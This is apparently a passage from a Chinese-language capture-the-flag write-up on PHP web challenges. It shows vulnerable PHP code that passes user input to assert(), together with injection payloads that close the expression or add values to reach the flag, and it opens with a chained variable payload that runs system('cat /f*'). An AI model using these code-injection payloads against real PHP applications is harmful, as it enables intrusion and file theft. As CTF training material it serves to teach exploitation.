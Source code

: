```
_=a&a=b&b=c&c=d&d=e&e=f&f=g&g=h&h=i&i=j&j=k&k=l&l=m&m=n&n=o&o=p&p=q&q=r&r=s&s=t&t=u&u=v&v=w&w=x&x=y&y=z&z=A&A=B&B=C&C=D&D=E&E=F&F=G&G=H&H=I&I=J&I=system('cat /f*');
```







## 一言既出

```
 <?php
highlight_file(__FILE__); 
include "flag.php";  
if (isset($_GET['num'])){
    if ($_GET['num'] == 114514){
        assert("intval($_GET[num])==1919810") or die("一言既出，驷马难追!");
        echo $flag;
    } 
} 

```

> assert里面如果是字符串的话，会将字符串当作php代码执行，与eval不同的一点是，结尾不需要分号

payload

```
?num=114514);//      将前面闭合并且注释掉后面的部分（妙啊）

?num=114514%2b1805296     %2b为加号url编码，两个相加等于1919810

?num=114514);1919810    跟第一种方法类似
```







## 驷马难追            

```php
<?php
highlight_file(__FILE__); 
include "flag.php";  
if (isset($_GET['num'])){
     if ($_GET['num'] == 114514 && check($_GET['num'])){
              assert("intval($_GET[num])==1919810") or die("一言既出，驷马难追!");
              echo $flag;
     } 
} 

function check($str){
  return !preg_match("/[a-z]|\;|\(|\)/",$str);

```
